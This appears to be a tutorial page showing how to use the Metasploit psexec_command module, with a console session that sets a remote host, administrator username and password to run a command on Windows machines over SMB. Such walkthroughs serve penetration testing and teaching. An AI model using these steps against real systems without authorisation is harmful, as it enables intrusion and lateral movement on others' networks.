 This module uses a valid administrator username and password to execute an arbitrary command on one or more hosts, using a similar technique than the "psexec" utility provided by SysInternals. Daisy chaining commands with '&' does not work and users shouldn't try it. This module is useful because it doesn't need to upload any binaries to the target machine.
<pre>
root@kali2:~# msfconsole 
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


Payload caught by AV? Fly under the radar with Dynamic Payloads in
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.13.6-dev                          ]
+ -- --=[ 1607 exploits - 914 auxiliary - 277 post        ]
+ -- --=[ 458 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > search psexec
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                         Disclosure Date  Rank       Description
   ----                                         ---------------  ----       -----------
   auxiliary/admin/smb/psexec_command                            normal     Microsoft Windows Authenticated Administration Utility
   auxiliary/admin/smb/psexec_ntdsgrab                           normal     PsExec NTDS.dit And SYSTEM Hive Download Utility
   auxiliary/scanner/smb/psexec_loggedin_users                   normal     Microsoft Windows Authenticated Logged In Users Enumeration
   exploit/windows/local/current_user_psexec    1999-01-01       excellent  PsExec via Current User Token
   exploit/windows/local/wmi                    1999-01-01       excellent  Windows Management Instrumentation (WMI) Remote Command Execution
   exploit/windows/smb/psexec                   1999-01-01       manual     Microsoft Windows Authenticated User Code Execution
   exploit/windows/smb/psexec_psh               1999-01-01       manual     Microsoft Windows Authenticated Powershell Command Execution



msf > use auxiliary/admin/smb/psexec_command

msf auxiliary(psexec_command) > show options


Module options (auxiliary/admin/smb/psexec_command):

   Name                  Current Setting                    Required  Description
   ----                  ---------------                    --------  -----------
   COMMAND               net group "Domain Admins" /domain  yes       The command you want to execute on the remote host
   RHOSTS                                                   yes       The target address range or CIDR identifier
   RPORT                 445                                yes       The Target port
   SERVICE_DESCRIPTION                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                     no        The service display name
   SERVICE_NAME                                             no        The service name
   SMBDomain             .                                  no        The Windows domain to use for authentication
   SMBPass                                                  no        The password for the specified username
   SMBSHARE              C$                                 yes       The name of a writeable share on the server
   SMBUser                                                  no        The username to authenticate as
   THREADS               1                                  yes       The number of concurrent threads
   WINPATH               WINDOWS                            yes       The name of the remote Windows directory


msf auxiliary(psexec_command) > set COMMAND ipconfig
COMMAND => ipconfig

msf auxiliary(psexec_command) > set RHOSTS <b>[REMOTE_HOST_IP_GOES_HERE]
RHOSTS => IP

msf auxiliary(psexec_command) > set SMBUser <b>[USER_NAME_MOSTLY_Administrator:Local_Admin)]
SMBUser => USER_NAME

msf auxiliary(psexec_command) > set SMBPass <b>[PASSWORD]
SMBPass => PASSWORD

msf auxiliary(psexec_command) > run

<pre>

Further Reading: 
  - https://www.trustedsec.com/may-2014/moar-shellz/
  - https://www.rapid7.com/db/modules/auxiliary/admin/smb/psexec_command
  
